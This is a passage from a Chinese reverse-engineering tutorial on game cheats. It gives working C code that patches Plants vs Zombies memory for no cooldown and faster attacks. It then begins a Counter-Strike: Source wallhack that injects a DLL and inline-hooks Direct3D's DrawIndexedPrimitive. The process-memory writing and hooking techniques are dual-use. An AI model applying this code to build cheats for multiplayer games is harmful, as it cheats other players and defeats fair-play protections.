    BOOL virtual_flag = VirtualFreeEx(hProcess, mFuncAddr, 128, MEM_RELEASE);
    if (virtual_flag == FALSE)
    {
        return FALSE;
    }

    // 关闭并返回
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return TRUE;
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");

    void(*pf)(int, int) = &SummonZombies;

    // 指定位置出现
    pf(1, 2);

    // 注入代码
    BOOL ref = InjectCode(Pid, pf);
    if (ref == TRUE)
    {
        printf("[+] 代码注入完成 \n");
    }

    system("pause");
    return 0;
}
```

运行上述代码，则读者可自定义传递需要在哪个格子内出现僵尸，并输出如下所示的召唤效果图；



### 6.8 分析植物无冷却

本章我们将继续分析植物无冷却这个功能的实现，默认情况下植物栏中的植物都存在一个默认的冷却周期，当读者种下植物时则默认会进入冷却状态，根据种植植物的不同冷却事件也会有所不同，这里就涉及到定时器的相关知识了，在本游戏内定时器是一个通用的，游戏作者并没有分别给每一个植物分配一个定时器，而是使用了一个通用定时器来管理所有植物的冷却，如果去查基址无论查找哪个植物最终都会定位到时钟的计时代码上，一般来说此类定时器是通用的，判断则是通过游戏中的语句进行区分的，如下代码是本人根据理解写出的一段模拟程序；
```c
#include <stdio.h>

struct MyStruct
{
    int BotanyID;         // 植物ID号
    int BotanyTime;       // 植物当前时间
    int BotanyRecTime;    // 冷却周期
    int BotanyFlag;       // 当前植物状态
};

int main(int argc, char *argv[])
{
    struct MyStruct SunFlower = { 0, 0, 700, 0 };     // 太阳花动态地址
    struct MyStruct Botany = { 1, 0, 1000, 0 };       // 豌豆射手动态地址
    while (true)
    {
        SunFlower.BotanyTime++;
        Botany.BotanyTime++;

        if (SunFlower.BotanyTime == SunFlower.BotanyRecTime)
        {
            SunFlower.BotanyFlag = 1;
            SunFlower.BotanyTime = 0;
            printf("太阳花冷却完成了....\n");
        }
        else if (Botany.BotanyTime == Botany.BotanyRecTime)
        {
            Botany.BotanyFlag = 1;
            Botany.BotanyTime = 0;
            printf("豌豆射手冷却完成了....\n");
        }
        Sleep(10);   // 模拟时钟定时
    }
    return 0;
}
```

上方代码中，结构体`MyStruct`部分存储的就是单个植物的属性，其中植物的属性可能包括植物ID，植物当前冷却计时，植物冷却周期，以及植物的当前状态，而随着选择不同植物卡片，游戏会根据选择植物的多少以及植物属性来动态分配内存空间。

经过对游戏的分析，冷却时间是一个递增的定时器(此处可通过CE查找验证)，作者为什么会用递增计时器呢？因为递增到一定程度变成0，0则表示冷却完成，那么也就不需要单独使用一个标志位来存储植物当前状态了。除此之外，游戏中控制植物冷却的时钟只有一个，那么通过递增计时器，对照不同植物的冷却周期，就可用一个定时器控制所有植物冷却，而如果用递减定时器，虽然也可以，但是却不方便编程实现。

无冷却的找法有多种，我们想用第一种方式来寻找；

 - 打开CE > 回到游戏种植一颗向日葵 > 扫描未知初始数值
 - 然后切回游戏 > 马上切回CE > 搜索变动的数值 > 一直重复 > 直到冷却结束
 - 此时不进行任何建造 > 回到CE > 搜索未变动的数值 > 依次排查

这里我经过分析知道了这个定时器是一个递增定时器，那么我就使用查找递增的方式来找了。

首先当游戏关卡开启时，默认樱桃炸弹是在冷却状态下的，我们直接搜索`未知初始化数据`，然后回到游戏并`搜索增加的数值`并不断重复，当樱桃炸弹冷却结束后直接搜索减少的数值，由于冷却结束这个数值会变为0，因此直接找数值是0的就是樱桃炸弹的冷却时钟。

找到后直接点击找出是什么改写了这个地址，并手动种下一个樱桃炸弹，此时会得到一条内存增加汇编指令；

 - 0048728C - 83 47 24 01 - add dword ptr [edi+24],01 <<



接着我们种下一个豌豆射手，然后用同样的遍历技巧找到豌豆射手的冷却周期，同样的查找是什么改写了这个地址，会发现其出现的地址与樱桃炸弹地址相同，说明游戏中所有的植物都是在共用`add dword ptr [edi+24],01`这条代码进行计时的。



此时我们知道了樱桃炸弹的冷却时间地址是`1078C0CC`我们还知道豌豆射手的地址是`1078C02C`，接下来我们通过使用CE提供给我们的插件，结构爬行器来对比两个结构之间的差异，可知偏移为`0x0`的位置就是植物的当前冷却时间，而紧随其后的`3601/79`则分别代表的是植物的当前冷却周期，偏移为`0x04`位置处则可能代表最大冷却周期，偏移为`0x08`的位置处则可能代表的是卡片的顺序，其中2代表的樱桃炸弹卡片的位置，而0则代表豌豆射手的卡片位置。

 - 结构爬行器选择 打开查看内存 选择工具 结构爬行器



分析到此接下来就是修改了，此处我们有两种修改方式，第一种是修改植物的冷却时间锁定为0，即可实现植物无冷却，另一种改法是将植物的冷却周期修改的低一些，这样同样能实现快速完成冷却，而由于此处所有的游戏都共用一个定时器，又因为基地址无法被确定，所以此处只能通过改硬编码的方式实现无冷却，

以樱桃炸弹为切入点，使用`x64dbg`跳转到`0x048728C`并依次分析代码片段，最终读者可以定位到如下图`0x48728a`所示的一片区域内，

此处改法有很多，读者可以直接将`add dword ptr ds:[edi+24],1`里面的`1`修改为`64`这样一来植物的冷却速度就会变快，也可以直接将`jle plantsvszombies.4872AC`处的指令直接`nop`掉，由于所有植物都会共用这一处区域进行冷却的验证，所以只要此处修改，所有的植物都会无冷却。



实现替换的代码此处只给出核心部分，具体的类库实现在之前的文章中已经详细介绍过，如下所示则是核心实现过程；
```c
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

using namespace std;

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 读取内存字节集
byte *ReadByteSet(DWORD Pid, DWORD Base, DWORD Size)
{
    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);
    if (handle == NULL)
    {
        return 0;
    }

    byte *buf = new byte[Size];

    BOOL ref = ReadProcessMemory(handle, (LPVOID)Base, buf, Size, NULL);
    if (ref == TRUE)
    {
        printf("[*] 读取数据成功 \n");
    }
    else
    {
        printf("[*] 读取数据失败 \n");
    }
    return buf;
}

// 写内存字节集
BOOL WriteByteSet(DWORD Pid, DWORD Base, unsigned char *ShellCode, DWORD Size)
{
    BYTE *Buff = new BYTE[Size];
    memset(Buff, *ShellCode, Size);

    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);

    return WriteProcessMemory(handle, (LPVOID)Base, Buff, Size, NULL);
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 进程PID = %d \n", pid);

    // 读取原始字节集
    byte *Buff = new byte[2];
    Buff = ReadByteSet(pid, 0x0487296, 2);

    for (int i = 0; i < 2; i++)
    {
        printf("%02X ", Buff[i]);
    }

    // 写出替换无冷却
    unsigned char shell[] = { 0x90, 0x90 };

    BOOL ref = WriteByteSet(pid, 0x0487296, shell, 2);
    if (ref == TRUE)
    {
        printf("[*] 替换数据成功 \n");

        for (size_t i = 0; i < sizeof(shell); i++)
        {
            printf("%x \n", shell[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }

    system("pause");
    return 0;
}
```

当读者运行该代码判断，则此时游戏内的植物卡片将全部变成了无冷却状态，读者可自行验证判断；



针对于无冷却的找法还有另一种方式，当我们拿起植物时则植物会变成灰色，而当放下时则会变成白色，我们完全可以寻找卡片的状态值，该状态我们暂且定义为拿起植物此时状态变为0，放下则变为1，那么遍历的技巧则可总结为如下样子；

 - 打开CE > 搜索类型选择字节型 > 在植物亮的状态时搜索1
 - 拿起植物 > 搜索0 > 放下植物搜索1 > 拿起植物搜索0 > 一直重复

当读者拿到这个值以后，在该地址上面右键，选择`是什么改写了这个地址`，回到游戏，拿起植物然后直接右键放下，会出现两条汇编指令。

 - @当我们放下植物后出现：0040CDEA - C6 44 08 70 01 - mov byte ptr [eax+ecx+70],01 <<
 - @当我们拿起植物后出现：00488E73 - C6 45 48 00 - mov byte ptr [ebp+48],00 <<



我们直接点击`00488E73 - C6 45 48 00 - mov byte ptr [ebp+48],00` 这条指令，因为这条指令是拿起植物是的状态，我们需要将代码中的`00`改为`01`即可，查看反汇编代码并提取在它之上的几条指令作为特征码，此处我们提取特征为`83 f8 1c 75 08 6a 1e`这些机器码。



接着我们通过CE来验证一下是否能够定位到相应的地址上，在CE中选择搜索`字节数组`，然后能够搜到`00488E64`这个地址，而我们需要定位到`00488E73`，可以将两个地址相减得到相对偏移`0xF(也就是十进制的15)`就等于我们想要的地址，公式为`00488e64 + 0xF = 当前地址`。



特征码定位可使用暴力枚举也可使用KMP枚举等方法实现，此处我们就使用最简单的暴力枚举，其替换补丁代码如下图所示；
```c
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

using namespace std;

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 内存特征码搜索
ULONG ScanMemorySignatureCode(DWORD Pid, DWORD beginAddr, DWORD endAddr, unsigned char *ShellCode, DWORD ShellCodeLen)
{
    unsigned char *read = new unsigned char[ShellCodeLen];

    // 打开进程
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);

    // 开始搜索内存特征
    for (int x = 0; x < endAddr; x++)
    {
        DWORD addr = beginAddr + x;

        // 每次读入ShellCodeLen字节特征
        ReadProcessMemory(process, (LPVOID)addr, read, ShellCodeLen, 0);
        int a = memcmp(read, ShellCode, ShellCodeLen);

        if (a == 0)
        {
            printf("%x :", addr);
            for (int y = 0; y < ShellCodeLen; y++)
            {
                printf("%02x ", read[y]);
            }
            printf(" \n");
            return addr;
        }
    }
    return 0;
}

int main(int argc, char *argv[])
{
    // 通过进程名获取进程PID号
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 获取进程PID = %d \n", Pid);

    // 开始搜索特征码
    unsigned char ScanOpCode[7] = { 0x83, 0xf8, 0x1c, 0x75, 0x08, 0x6a, 0x1e };

    // 依次传入开始地址，结束地址，特征码，以及特征码长度
    ULONG Address = ScanMemorySignatureCode(Pid, 0x401000, 0x7FFFFFFF, ScanOpCode, 7);
    printf("[*] 找到内存地址 = 0x%x \n", Address);

    // 定位内存区域
    ULONG OffAddress = Address + 0x0f;
    printf("[+] 定位到特征位置 = 0x%x \n", OffAddress);

    // 替换内存
    BYTE WriteOpCode[4] = { 0xc6, 0x45, 0x48, 0x01 };

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);

    // 替换后输出
    BOOL Ret = WriteProcessMemory(hProcess, (LPVOID)OffAddress, WriteOpCode, 4, 0);
    if (Ret != 0)
    {
        printf("[+] 已替换内存特征 \n");
    }

    system("pause");
    return 0;
}
```

运行代码片段则可实现替换`0x488e73`内存出的特征片段`0xc6, 0x45, 0x48, 0x01`并以此实现无冷却的效果，如下图所示；



### 6.9 分析植物攻击速度

在植物大战僵尸中，植物是有攻击速度的，比如每隔一段时间会吐出一些子弹，由此可判断吐出子弹应该是由一个计数器控制的，也就是说只要我们能够找到控制植物攻击的时钟并改写它，也就可以实现植物加速吐出子弹的效果，吐出子弹的速度分析遍历技巧如下。

 - 附加游戏 > 手动种下豌豆射手 > 搜索未知初始化数据(未攻击)
 - 出现僵尸 > 开始攻击的时候 > 使用变速精灵或变速齿轮将攻击速度放慢 > 搜索减少的数值
 - 回到游戏 > 马上回到CE > 搜索减少的数值 > 依次重复进行`5-15`次左右
 - 等待豌豆射手再次吐出子弹 > 直接搜索增加的数值 > 最后剩下的地址中数值在`（0-1000）`以内的就是

运行游戏并使用CE直接附加进程，为了方便调试请自行将阳光改为`99999`，等待僵尸出现后，马上在本行种植一个`豌豆射手`在豌豆射手没有攻击前，迅速暂停游戏，回到CE搜索`未知初始化数据`，当吐出子弹之后依次`搜索减少`的数值，最后读者应该可以排查出如下图所示的几个内存地址；



首先点开第一个内存地址`0x13462678`并查找是什么`写入`了这个内存地址，如下图所示；

 - 00464461 - 89 86 B0000000  - mov [esi+000000B0],eax <<



接着继续看第二个内存地址`0x138CB000`并查找是什么`写入`了这个内存地址，如下图所示；

 - 00413B7C - 83 86 38550000 FF - add dword ptr [esi+00005538],-01 <<



最后`138CB064`第三个内存地址，并查找是什么`写入`了这个内存地址，如下图所示；

 - 00413E45 - 83 87 9C550000 FF - add dword ptr [edi+0000559C],-01 <<



我们以内存地址`0x464461`为例，定位到此处并依次向上回溯，最终可跳转到`0x045F8A9`，我们直接在此处下断点，回到游戏豌豆射手攻击时会被直接断下，这里经过不断的测试，笔者已经分析了这段代码片段中的实现细节；

我们可以通过修改`mov ecx，dword ptr [esi + 5C]`来实现加速植物攻击加速，这里可以将该指令直接改成`mov ecx,22`即可实现植物攻击加速，但此处如果读者将数值改为小于22则植物将不会攻击，22时可修改的最小范围。



读者可以继续向下寻找代码片段，修改下图中的`jnz 0045F935`将其改为`NOP`同样可实现全局植物加速功能，紧随判断其后的`call 0x0045EF10`则是植物攻击的关键CALL调用。



而实现替换特征码的实现方法相信读者能很容易的实现，如则是完整的替换代码；
```c
#include <iostream>
#include <windows.h>
#include <string>
#include <tlhelp32.h>

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

// 写内存字节集
BOOL WriteByteSet(DWORD Pid, DWORD Base, unsigned char *ShellCode, DWORD Size)
{
    BYTE *Buff = new BYTE[Size];
    memset(Buff, *ShellCode, Size);

    HANDLE handle = OpenProcess(PROCESS_ALL_ACCESS, 0, Pid);

    return WriteProcessMemory(handle, (LPVOID)Base, Buff, Size, NULL);
}

int main(int argc, char *argv[])
{
    // 得到进程PID
    DWORD pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 进程PID = %d \n", pid);

    // 写出替换
    unsigned char shell[] = { 0x90, 0x90 };

    BOOL ref = WriteByteSet(pid, 0x45F926, shell, 2);
    if (ref == TRUE)
    {
        printf("[*] 替换数据成功 \n");

        for (size_t i = 0; i < sizeof(shell); i++)
        {
            printf("%x \n", shell[i]);
        }
    }
    else
    {
        printf("[*] 替换数据失败 \n");
    }

    system("pause");
    return 0;
}
```

至此植物大战僵尸系列游戏的分析就结束了，读者可将我们所学到的技术应用在一起，例如无限阳光，加速攻击，无冷却，叠加种植等，任何一个简单的技术聚集在一起都将形成一个庞大的体系，如下图所示则是我们所实现的游戏效果；


## 第七篇：逆向分析反恐精英起源

《反恐精英》（Counter-Strike，简称CS）是一款以团队为主要模式的第一人称射击游戏，由美国的游戏开发公司`Valve Corporation`和加拿大的游戏开发公司`Turtle Rock Studios`共同开发。它最初是作为《半条命》（Half-Life）的一个MOD（模组）而开始开发的，后来在1999年正式发布。

CS的起源可以追溯到1999年，当时一位名叫`Jess Cliffe`的加利福尼亚大学伯克利分校学生制作了一个名为《Half-Life: Counter-Strike》的MOD，并与另一位学生`Gooseman`合作开发。游戏很快就受到了玩家的欢迎，并在短时间内成为了当时最流行的多人游戏之一。由于游戏的成功`Jess Cliffe`和`Gooseman`很快被`Valve Corporation`收购，并开始全职参与游戏的开发。

CS在多年的发展中经历了许多变化和改进，包括引入新的武器和装备、改进游戏引擎等。它一直保持着强大的玩家群体和竞技游戏的地位，在电子竞技比赛中也有着广泛的应用，本篇文章将主要介绍CS起源这款游戏中特殊基址的寻找方法，并通过编程的方式实现功能扩展，真正让玩游戏变成玩游戏。

### 7.1 运用Hook实现上色透视

Direct3D 透视是一种主流的透视方式，因为现如今大部分游戏都会使用Dx图形接口，在D3D中普遍会使用`深度缓存区`来进行消隐处理，深度缓存区（Depth Buffer），也称为Z缓存（Z-buffer），是一种用于实现三维图形渲染的技术。在渲染三维场景时，深度缓存区存储每个像素的深度值，即离相机的距离，以便正确地处理遮挡和透视等效果。

深度缓存区工作原理是这样的：

 - 在渲染三维场景时，对于每个像素，都会计算出它在场景中的位置和深度值。当渲染器将像素绘制到屏幕上时，它会检查深度缓存区中已存储的相应像素的深度值，如果当前像素的深度值比已存储的像素深度值更小（即更靠近相机），则当前像素将被绘制到屏幕上，并更新深度缓存区中的值，否则当前像素将被丢弃。

深度缓存区对于实现透视效果和遮挡处理非常重要，因为它可以避免在渲染场景时出现不正确的图像重叠或隐藏的问题。此外，深度缓存区还可以用于实现其他特效，如阴影和镜面反射等。

通过使用`Z-buffer轴`深度缓存即可实现将人物被遮挡的部分不被显示出来，而我们的目的就是要让它强制显示出来，通常D3D的核心功能主要集成在COM组件中，我们只需要`Hook`其中`EndScence(),DrawPrimitive(),DrawIndexedPrimitive()`这三个函数就可以感知游戏的绘图操作，然后再通过调用`SetRenderState()`渲染函数，改变其中的渲染参数即可实现不同的透视效果。

通过劫持这三个函数中的任意一个都可以实现角色上色的功能，此处我们劫持`DrawIndexedPrimitive`这个绘图函数，该函数用于在图形设备上绘制索引缓冲区中存储的三角形或其他基元的实例。

通常情况下，图形设备需要先设置一些状态，例如顶点缓冲区、索引缓冲区、着色器程序等，然后才能进行绘制操作。`DrawIndexedPrimitive`函数需要在这些状态设置完毕后进行调用，以按照预设置的三角形连接顺序、平移、旋转等信息和所存储的顶点坐标在设备上绘制出所需的图形。

DrawIndexedPrimitive函数的函数原型如下：
```c
HRESULT DrawIndexedPrimitive(
  D3DPRIMITIVETYPE Type,
  INT             BaseVertexIndex,
  UINT            MinIndex,
  UINT            NumVertices,
  UINT            StartIndex,
  UINT            PrimitiveCount
);
```

具体参数说明如下：

 - Type：指定基元类型的常量，包括三角形列表、三角形条、三角形带、线条、线段和点等。
 - BaseVertexIndex：指定顶点索引偏移量，通常为0。
 - MinIndex：指定索引缓冲区中最小顶点索引值。
 - NumVertices：指定要渲染的顶点数。
 - StartIndex：指定从索引缓存区中的哪个索引开始绘制。
 - PrimitiveCount：指定从指定的起始索引开始渲染的基元数。

DrawIndexedPrimitive 函数有一些优点，例如它能够在绘制大量重复基元的时候节省内存、提高速度。同时，这个函数需要一些复杂的设置和状态来支持索引缓冲区的渲染操作，因此可能需要更高的硬件要求和更多的编程工作。

#### 7.1.1 寻找DrawIndexedPrimitive基址

在之前的文章`《应用DirectX窗体绘制技术》`中我们编写过一个简单的画布程序，本节内容中我们依然需要这个画布，为了能实现劫持`DrawIndexedPrimitive`函数的目的，第一步则是需要找到该函数的基址，但`DrawIndexedPrimitive`函数与其他普通API函数不同，由于`DirectX`的功能都是以`COM`组件的形式提供的类函数，所以我们无法通过普通的Hook方式实现劫持，这里就需要话一种思路来实现功能。

此处笔者采用了硬编码的方式获取这个函数的基址，通过在源码中找到`DrawIndexedPrimitive`函数并设置好断点，运行该程序并通过单步执行的方式找到模块地址，并与`d3d9.dll`模块的基址相减得到一个相对偏移地址，但读者需要注意的是，该偏移值只能在本系统下有效，无法更换系统。



当程序运行并断下后，我们直接按下快捷键`Ctrl+Alt+D`也就是打开反汇编窗口，此处读者应该能看到`call eax`这个CALL也就是该函数的对应代码部分；



上方的代码就是VS中看到的代码片段，该代码片段就是调用`DrawIndexedPrimitive`函数的初始化工作，可以明显的看出压栈了7条数据，最后调用了`call eax`我们直接在单步`F10`走到`0x00FF1875`地址处并按下`F11`进入到CALL的内部，可看到以下代码片段，我们需要记下片段中的 `0x6F3DF5C0` 这个地址。



上图中的起始地址`0x6F3DF5C0`经常会变化，所以我们需要找到当前`d3d9.dll`模块的基址，此时读者可通过`x64dbg`调试器加载被编译程序，并切换到符号选项卡，此时读者可看到当前`d3d9.dll`模块的基址是`0x6F380000`，我们记下这个地址。



通过使用`0x6F3DF5C0`减去`0x6F380000`读者即可得到一个相对偏移地址`5F5C0`，至此我们只需要获取到`d3d9.dll`模块地址加上`5F5C0`即可获取到动态的`DrawIndexedPrimitive`内存地址，如下图所示；



当我们得到上述模块基地址后读者可自行实现获取的功能了，如下代码`GetDrawIndexedPrimitiveAddr()`则是实现读取该模块基址的实现方法；
```c
#include <windows.h>
#include <iostream>

// 获取模块基址
ULONG_PTR GetDrawIndexedPrimitiveAddr()
{
    HANDLE handle = GetModuleHandle(TEXT("d3d9.dll"));
    if (handle == INVALID_HANDLE_VALUE)
    {
        return NULL;
    }

    return(ULONG_PTR)handle + 0x5F5C0;
}

bool APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
    HWND hwnd = FindWindowW(L"Valve001", NULL);
    DWORD pid;
    GetWindowThreadProcessId(hwnd, &pid);
    if (GetCurrentProcessId() == pid)
    {
        ULONG_PTR temp = GetDrawIndexedPrimitiveAddr();
        char str[512] = { 0 };
        sprintf(str, "d3d9.dll => 0x%x | GetAddress = > 0x%x \n", handle, temp);
        OutputDebugStringA(str);
    }
    return true;
}
```

当然读者也可通过动态获取，如下一个完整的代码案例演示了如何通过动态方式读取到该函数的基址，由于`DrawIndexedPrimitive`是`IDirect3DDevice9`第83个函数，所以通过`(*(void***)device)[82]`的方式即可定位到该函数的内存地址。
```c
#include <Windows.h>
#include <iostream>
#include <d3dx9.h>

#pragma comment(lib,"d3d9.lib") 
#pragma comment(lib,"d3dx9.lib")

void* DrawIndexedPrimitiveAddress = NULL;

// 获取指定COM组件内存地址
DWORD WINAPI GetComAddress(LPVOID dllMainThread)
{
    WaitForSingleObject(dllMainThread, INFINITE);
    CloseHandle(dllMainThread);

    WNDCLASSEX wc = {};
    wc.cbSize = sizeof(wc);
    wc.style = CS_OWNDC;
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = L"LySharkWindow";

    // 注册窗口类
    if (RegisterClassEx(&wc) == 0)
    {
        return 0;
    }

    // 创建窗口
    HWND hwnd = CreateWindowEx(0, wc.lpszClassName, L"", WS_OVERLAPPEDWINDOW, 0, 0, 640, 480, NULL, NULL, wc.hInstance, NULL);
    if (hwnd == NULL)
    {
        return 0;
    }

    // 初始化D3D
    IDirect3D9* d3d9 = Direct3DCreate9(D3D_SDK_VERSION);
    if (d3d9 == NULL)
    {
        DestroyWindow(hwnd);
        return 0;
    }

    D3DPRESENT_PARAMETERS pp = {};
    pp.Windowed = TRUE;
    pp.SwapEffect = D3DSWAPEFFECT_COPY;

    // 创建设备
    IDirect3DDevice9* device;
    if (FAILED(d3d9->CreateDevice(D3DADAPTER_DEFAULT, D3DDEVTYPE_HAL, hwnd, D3DCREATE_SOFTWARE_VERTEXPROCESSING, &pp, &device)))
    {
        d3d9->Release();
        DestroyWindow(hwnd);
        return 0;
    }

    // DrawIndexedPrimitive 是IDirect3DDevice9第83个函数
    DrawIndexedPrimitiveAddress = (*(void***)device)[82];

    HANDLE handle = GetModuleHandle(TEXT("d3d9.dll"));

    // 弹出当前模块基地址信息
    CHAR str[1024] = { 0 };

    sprintf(str, "d3d9.dll => 0x%x | GetAddress = > 0x%x | offset = 0x%x \n", handle, DrawIndexedPrimitiveAddress, ((DWORD)DrawIndexedPrimitiveAddress - (DWORD)handle));
    MessageBoxA(0, str, "当前模块基地址信息", 0);

    // 释放
    d3d9->Release();
    device->Release();
    DestroyWindow(hwnd);
    return 0;
}

// dll入口
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        HANDLE curThread;

        // 获取当前线程ID
        if (!DuplicateHandle(GetCurrentProcess(), GetCurrentThread(), GetCurrentProcess(), &curThread, SYNCHRONIZE, FALSE, 0))
        {
            return FALSE;
        }

        // DllMain中不能使用COM组件 所以要在另一个线程初始化
        CloseHandle(CreateThread(NULL, 0, GetComAddress, curThread, 0, NULL));

        break;
    }

    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

当游戏被打开后，读者可自行编译并将上述`hook.dll`文件注入到游戏内，此时会弹出我们所需要的函数内存地址，如下图所示；



#### 7.1.2 劫持DrawIndexedPrimitive函数

通过劫持`DrawIndexedPrimitive`函数就可以感知绘图操作，其实这里就是`API Hook`首先我们使用`VirtualProtect()`函数将我们需要填充的内存设置为可读写可执行权限，接着直接使用 `jmp (远跳转)` 指令替换掉程序中调用`DrawIndexedPrimitive`函数的前5个字节，然后让其跳转到我们的`hook.dll`模块中的`MyDrawIndexedPrimitive`执行我们自己的绘图过程，执行完毕以后直接通过`Transfer_DrawIndexedPrimitive`中转函数跳转回程序的原函数上，即可完成`D3D`的函数劫持。

要想劫持函数则第一步是需要了解清楚该函数的参数传递情况，如下是`DrawIndexedPrimitive`函数的原型定义。
```c
STDMETHOD(DrawIndexedPrimitive)(
    THIS_ D3DPRIMITIVETYPE,
    INT BaseVertexIndex,
    UINT MinVertexIndex,
    UINT NumVertices,
    UINT startIndex,
    UINT primCount
)
```
从上方函数原型定义中，可以看出一共传递了6个参数，这里需要注意，由于该函数是类函数，在调用时需要传递自身指针`(pdevice ->DrawIndexedPrimitive())`，所以我们还需要加上一个自身指针，完整声明应该如下：
```c
pdevice =  LPDIRECT3DDEVICE9 pDevice

HRESULT DrawIndexedPrimitive(
    [in] LPDIRECT3DDEVICE9 pDevice,             // 设备指针
    [in]  D3DPRIMITIVETYPE Type,                // 图元类型
    [in]  INT BaseVertexIndex,                  // 起始顶点索引
    [in]  UINT MinIndex,                        // 最小顶点索引
    [in]  UINT NumVertices,                     // 顶点数量
    [in]  UINT StartIndex,                      // 起始索引
    [in]  UINT PrimitiveCount                   // 图元数量
)
```

在上方代码中我们既然知道了声明方式，那么接着就可以制作自己的中转函数`Transfer_DrawIndexedPrimitive`以及自己的`MyDrawIndexedPrimitive`函数了，代码片段如下，需要注意调用约定：
```c
__declspec(naked) HRESULT __stdcall Transfer_DrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, 
    D3DPRIMITIVETYPE type, 
    INT BaseVertexIndex, 
    UINT MinVertexIndex, 
    UINT NumVertices, 
    UINT startIndex, 
    UINT primCount)
{
    __asm{
        mov edi, edi
        push ebp
        mov ebp, esp
        mov eax, jump
        jmp eax
    }
}

HRESULT __stdcall MyDrawIndexedPrimitive(LPDIRECT3DDEVICE9 m_pDevice, 
    D3DPRIMITIVETYPE type, 
    INT BaseVertexIndex, 
    UINT MinVertexIndex, 
    UINT NumVertices, 
    UINT startIndex, 
    UINT primCount)
{
    OutputDebugStringA("执行我自己的函数,中转函数\r\n");
    return Transfer_DrawIndexedPrimitive(m_pDevice, type, BaseVertexIndex, MinVertexIndex, NumVertices, startIndex, primCount);
}
```
接着是实现挂钩的具体细节，`HookDrawIndexedPrimitive()`函数中通过设置内存属性为读写执行，并将自身函数的跳转指令写出到原函数内实现函数的替换功能，当有新的请求时则会自动跳转至`MyDrawIndexedPrimitive`函数内执行，以此来实现对特定内存的劫持功能。
```C
bool HookDrawIndexedPrimitive()
{
    ULONG_PTR address = GetDrawIndexedPrimitiveAddr();
    DWORD oldProtect = 0;
    if (VirtualProtect((LPVOID)address, 5, PAGE_EXECUTE_READWRITE, &oldProtect))   // 设置内存保护方式为可读写
    {
        DWORD value = (DWORD)MyDrawIndexedPrimitive - address - 5;                 // 计算出需要跳转字节
        jump = address + 5;                                                        // 计算下一个跳转字节
        __asm
        {
            mov eax, address
            mov byte ptr[eax],0xe9                                                 // 填充为 jmp
            add eax,1                                                              // 指针递增
            mov ebx,value                                                          // 中转
            mov dword ptr[eax],ebx                                                 // 赋值跳转地址(远跳转)
        }
        VirtualProtect((LPVOID)address, 5, oldProtect, &oldProtect);               // 恢复内存保护方式
    }
    return true;
}
```

根据上述原理介绍读者可自行整理一份实现劫持的通用代码片段，如下所示则是一个实现劫持`DrawIndexedPrimitive`的完整代码，读者可自行编译该段程序，并重命名为`hook.dll`；

```c
#include <windows.h>
#include <d3d9.h>

#pragma comment(lib, "d3d9.lib")

DWORD jump = 0;
DWORD g_count = 0;

// 中转函数,执行被我们填充后的指令片段，并跳转到原始指令的后面继续执行
__declspec(naked) HRESULT __stdcall Transfer_DrawIndexedPrimitive
(
    LPDIRECT3DDEVICE9 m_pDevice,
    D3DPRIMITIVETYPE type,
    INT BaseVertexIndex,
    UINT MinVertexIndex,
    UINT NumVertices,
    UINT startIndex,
    UINT primCount)
{
    __asm
    {
        mov edi, edi
        push ebp
        mov ebp, esp
        mov eax, jump
        jmp eax
    }
}

// 在此函数中DIY添加功能（例如：绘制菜单）
HRESULT __stdcall MyDrawIndexedPrimitive
(
    LPDIRECT3DDEVICE9 m_pDevice,
    D3DPRIMITIVETYPE type,
    INT BaseVertexIndex,
    UINT MinVertexIndex,
    UINT NumVertices,
    UINT startIndex,
    UINT primCount)

{
    // 每次递增计数器
    g_count = g_count + 1;

    CHAR szBuffer[256] = {0};

    // 每次弹出提示框
    wsprintf(szBuffer, "劫持次数 = > %d", g_count);
    MessageBox(0, szBuffer, "MsgBox", 0);
